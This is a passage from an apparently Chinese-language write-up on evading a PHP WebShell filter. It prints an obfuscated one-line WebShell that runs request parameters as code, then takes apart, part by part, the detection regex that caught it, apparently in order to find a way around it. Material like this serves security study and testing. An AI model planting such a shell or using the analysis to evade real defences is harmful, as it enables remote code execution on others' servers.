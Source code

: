 首先，既然过滤了这么多高危函数，那我马上想到了我写的免杀手册的第一个实例，这里面可是一个高危函数都没有的：

```php
<?=~$_='$<>/'^'{{{{';@${$_}[_](@${$_}[__]);
```

如果不懂这个WebShell的原理，可以看开源项目的12.1部分：[https://github.com/AabyssZG/WebShell-Bypass-Guide/blob/main/PHP-Webshell-ByPass-Guide.md](https://github.com/AabyssZG/WebShell-Bypass-Guide/blob/main/PHP-Webshell-ByPass-Guide.md)

![跨越十年-6.png](assets/1702521390-274a29c3a8b47d8d1669a530f28c849b.png)

没想到第一个WebShell就翻车了，这时候的我心理活动：咦不应该啊？  
然后我又把整个正则匹配式看了一遍，找到了关键的正则匹配式：

```perl
'\$[\w-_\'\\[\\]{}\.\$\*/|]+(\s|\/\*.*?\*\/)*\(.*?\)'
```

这个正则表达式要怎么理解呢，我们可以拆开用以下四部分来分析：

```perl
\$                         # 第一部分
[\w-_\'\\[\\]{}\.\$\*/|]+  # 第二部分
(\s|\/\*.*?\*\/)*          # 第三部分
\(.*?\)                    # 第四部分
```

-   第一部分: 最开头匹配符号 `$`
-   第二部分：匹配一个或多个字符，这些字符可以是：字母数字下划线、单引号、反斜杠、方括号、花括号、点、`$`符号、星号、斜杠、竖线
-   第三部分: 匹配零个或多个空白字符（\\s）或注释（/ / 形式的内容）。
-   第四部分: 用非贪婪模式匹配括号内的任意字符

那现在，让我们将这些部分组合起来，可以清楚地理解整个正则表达式的匹配内容：

-   第一部分: 匹配以 `$` 符号开头的单词（变量名）
-   第二部分: 匹配一个或多个允许的字符，形成变量名的其余部分，比如 `$f` 或者 `$_`
-   第三部分: 匹配零个或多个空白字符或注释，应该是防止中间掺杂垃圾字符干扰正则
-   第四部分: 匹配括号内的任意字符，相当于不检测括号内的内容

**相当于检测到外部变量想要作为函数执行括号内的内容就拦截，那这条正则匹配式能拦截啥呢？比如：**

![跨越十年-7.png](assets/1702521390-f43d1e3324e34a1825ec19e95b02cb65.png)
